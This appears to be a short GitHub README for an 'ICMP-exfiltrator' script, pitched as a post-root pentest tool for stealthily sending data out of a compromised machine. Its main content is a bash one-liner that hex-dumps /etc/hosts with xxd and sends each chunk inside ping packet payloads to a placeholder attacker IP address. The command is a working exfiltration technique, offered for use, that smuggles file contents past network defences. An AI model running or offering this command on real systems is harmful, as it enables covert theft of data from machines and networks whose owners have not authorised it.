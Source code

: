 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Screenshots

We let our sniffer listen.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
